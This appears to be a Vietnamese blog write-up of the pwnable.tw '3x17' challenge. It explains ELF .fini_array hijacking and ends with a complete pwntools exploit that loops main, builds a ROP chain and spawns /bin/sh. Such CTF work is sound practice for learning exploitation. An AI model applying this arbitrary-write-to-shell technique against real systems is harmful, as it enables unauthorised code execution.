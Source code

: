 # 3x17 (pwnable.tw)

# Mở đầu
Theo mình thì đây là một chall không khó, nhưng khá hay do sử dụng một kĩ thuật khá mới lạ  
## Technology and content
**Tech**: chúng ta cần chú ý đến 2 phân vùng : *.init_array* và *.fini_array*  
* init_array: cung cấp các hàm contructor cho chương trình trước khi hàm main() được thực hiện  
* fini_array: cung cấp các hàm destructor cần thiết sau khi kết thúc hàm main(), trước khi kết thúc chương trình  
fini_array bao gồm 2 entry:
* foo_destructor :  chính là hàm gọi destructor  
* do_global_dtors_aux : hàm nãy sẽ chạy tất cả các global destructor(trên hệ thống) để thoát khỏi chương trình, trong trường hợp phân vùng *.fini_array* không được định nghĩa.       
* Hai hàm này được gọi theo thứ tự: gọi foo_destructor trước, sau đó đến do_global_dtors_aux    
**Cấu trúc của fini_array như sau:**      
 
![fini.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624785316851/bqQBPZdnH.png)

Tham khảo ở link sau :  [This](http://blog.k3170makan.com/2018/10/introduction-to-elf-format-part-v.html)  
**Content**
Chính nhờ những kiến thức bên trên, thì ta sẽ có cách solve chall này như sau:  
* ghi đè địa chỉ của .fini_array = địa chỉ của foo_destructor và địa chỉ của main  => khi chạy hết main, chương trình sẽ nhảy vào foo_destructor sau đó quay lại main => chúng ta có thể ghi đi ghi lại nhiều lần tuỳ ý  
* build stack bằng ROP  

## Analysic code
Binary của bài này đã được tác giả STRIPED cẩn thận, nên với một thằng gà RE như tôi thì việc hiểu flow khá khó khăn.  
Lần theo hàm _start thì chúng ta sẽ tìm được code của chương trình như sau  

![code.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624785328918/FdIBWYyjX.png)

Về cơ bản thì chall này cho phép chúng ta ghi vào một địa chỉ bất kì.  
Theo content ở trên, ta xác định được hai địa chỉ:
* .fini_array : 0x4b40f0
* foo_destructor: 0x402960  

![fini_array.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624785339483/ml8Hg1s0q.png)
 

Vậy hướng giải ta có như sau:  
* ghi đè địa chỉ của .fini_array = foo_destructor + main_address : để ghi đi ghi lại chương trình nhiều lần, sau khi chạy hết main sẽ nhảy vào foo_destructor và sau đó nhảy lại vào main  
* Build stack bằng ROP như sau:  

![stack.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1624785348063/upDs90rnS.png)
 
* sau khi build xong stack, ta sẽ ghi đè .fini_array lần cuối bằng leave_ret để nhảy vào ROP

## full code exploit
```python
from pwn import *
conn = process('./3x17')
# conn = remote('chall.pwnable.tw', 10105)

def write_to_add(addr, data):
    conn.recvuntil('addr:')
    input('?')
    conn.sendline(str(addr))
    conn.recvuntil('data:')
    conn.send(data)

_fini_array_addr = 0x4b40f0
_fini_array_caller = 0x402960
_main_addr = 0x401b6d
leave_ret = 0x401c4b
syscall = 0x4022b4
pop_rdi = 0x401696
pop_rsi = 0x406c30
pop_rax = 0x41e4af
pop_rdx = 0x446e35
bin_sh = _fini_array_addr + 88
write_to_add(_fini_array_addr, p64(_fini_array_caller) + p64(_main_addr)) #overwrite _fini_array with caller
# _main_address is the ret func off _fini_array_caller
input('?')
write_to_add(_fini_array_addr + 16, p64(pop_rdx) + p64(0))
write_to_add(_fini_array_addr + 32, p64(pop_rsi) + p64(0))
write_to_add(_fini_array_addr + 48, p64(pop_rax) + p64(0x3b))
write_to_add(_fini_array_addr + 64, p64(pop_rdi) + p64(bin_sh))
write_to_add(_fini_array_addr + 80, p64(syscall) + b'/bin/sh\x00')
write_to_add(_fini_array_addr, p64(leave_ret))
conn.interactive()
```
***Thanks for reading!!!!!!***

